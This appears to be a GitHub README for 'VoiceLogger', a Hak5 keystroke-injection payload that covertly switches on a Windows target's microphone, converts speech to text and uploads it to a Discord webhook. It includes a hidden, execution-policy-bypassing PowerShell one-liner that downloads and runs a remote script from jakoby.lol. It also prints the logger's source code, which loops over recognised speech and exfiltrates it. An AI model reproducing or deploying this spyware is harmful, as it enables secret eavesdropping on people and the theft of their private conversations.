 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# VoiceLogger

## Description

This payload activates your targets microphone and converts their speech to text and exfils it to discord 
With the optional functionality of incorporating voice activated payloads

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your Discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='';irm jakoby.lol/voiceLogger | iex
```

### The Function

- The voiceLogger function leverages the System.Speech namespace to create a continuous speech-to-text logger. 
- It initializes a speech recognition engine, loads a dictation grammar, and sets the input to the default audio device. 
- The script then enters an infinite loop where it listens for speech input and recognizes the text. 
- The recognized text is written to the output and saved to a temporary log file. 
- The log file content is then uploaded using the DC-Upload function. 
- Additionally, the script checks for specific voice commands using a switch statement with regex patterns: if the word "notepad" is detected, it launches Notepad, 
- and if the word "exit" is detected, it breaks the loop and stops the voice logger. 
- Once the loop is terminated, the log file's content is cleared.

```powershell
function voiceLogger {

    Add-Type -AssemblyName System.Speech
    $recognizer = New-Object System.Speech.Recognition.SpeechRecognitionEngine
    $grammar = New-Object System.Speech.Recognition.DictationGrammar
    $recognizer.LoadGrammar($grammar)
    $recognizer.SetInputToDefaultAudioDevice()

    while ($true) {
        $result = $recognizer.Recognize()
        if ($result) {
            $results = $result.Text
            Write-Output $results
            $log = "$env:tmp/VoiceLog.txt"
            echo $results > $log
            $text = get-content $log -raw
            DC-Upload $text

            # Use a switch statement with the $results variable
            switch -regex ($results) {
                '\bnotepad\b' {saps notepad}
                '\bexit\b' {exit}
            }
        }
    }
    Clear-Content -Path $log
}
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>
